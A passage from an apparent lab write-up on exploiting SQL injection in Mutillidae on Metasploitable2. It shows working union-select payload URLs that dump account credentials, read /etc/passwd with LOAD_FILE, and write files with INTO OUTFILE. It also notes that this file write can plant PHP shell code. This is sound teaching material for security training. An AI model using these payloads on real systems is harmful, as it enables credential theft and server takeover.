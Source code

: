 Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).
http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

## OUTPUT:
![{1ED2C8BB-A5CD-43B0-BB96-87E701ECB7C3}](https://github.com/user-attachments/assets/21abf81d-e047-4793-a284-08fa17ecef5e)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).
http://192.168.1.10/mutillidae/index.php?page=user-info.php&username=blaise%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
## OUTPUT:
![{08DE6856-DD25-4D89-A338-91A57771534B}](https://github.com/user-attachments/assets/44300184-8a22-4802-88f0-f4e07d31d8bf)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).



## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
